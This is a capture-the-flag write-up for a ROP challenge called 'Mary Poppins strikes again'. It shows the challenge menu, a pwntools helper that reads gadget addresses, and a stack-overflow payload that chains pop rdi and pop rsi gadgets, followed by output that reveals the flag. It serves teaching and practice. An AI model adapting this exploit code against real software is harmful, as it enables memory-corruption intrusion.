

# Mary Poppins strikes again

<p align="center">

</p>

Connecting to the remote instance with `netcat` we are given some of the [source code](./utils/program.c) for the challenge. We are also given the goal of the challenge, and some options to interact with the program.

```
Your goal is to create a ROP chain consisting of two gadgets:
  pop rdi (0x4038db)
  pop rsi (0x4038dd)
rdi should contain 0xdeadbeef, and rsi should contain 0xc0debabe.
Use the "Verify ROP chain" menu option to get the flag.

Google these terms for help:
- ROP gadgets
- ROP chaining

Good luck!

1. Fill buffer
2. Print stack frame
3. Verify ROP chain
4. Print challenge description
5. Print gadgets
6. Lookup symbol
7. Add string
8. [Quit]
>
```

This challenge is very similar to `inspector's new gadget`, but that we for this challenge have to put a value in the `rsi` register, in addition to the `rdi` register.

We get the address all the useful gadgets we need from `option 5`, which we can automatize in our solve script.
```python
def get_gadgets():
    io.sendlineafter(b"> ", b"5")
    io.recvuntil(b"pop rdi; ret: ")
    pop_rdi = int(io.recvline().strip(), 16)
    io.recvuntil(b"pop rsi; ret: ")
    pop_rsi = int(io.recvline().strip(), 16)
    io.recvuntil(b"pop rdx; ret: ")
    pop_rdx = int(io.recvline().strip(), 16)
    return pop_rdi, pop_rsi, pop_rdx
```

The payload we use is very similar to `inspector's new gadget`, only that we this time also add the `pop_rsi` gadget to put the value `0xc0debabe` into the `rsi` register.
```python
payload = b"A"*136
payload += p64(pop_rdi)
payload += p64(0xdeadbeef)
payload += p64(pop_rsi)
payload += p64(0xc0debabe)
```

The full, and commented, exploit script can be found in [solve.py](./solve.py).

```console
$ python3 solve.py
[+] Opening connection to pwn.tokle.dev on port 1341: Done
[+] Pop RDI @ 0x4038db
[+] Pop RSI @ 0x4038dd
[+] Pop RDX @ 0x4038df
[*] Switching to interactive mode
ROP chain looks good! Congrats, here's the flag: flag{popping_flags_all_day}
```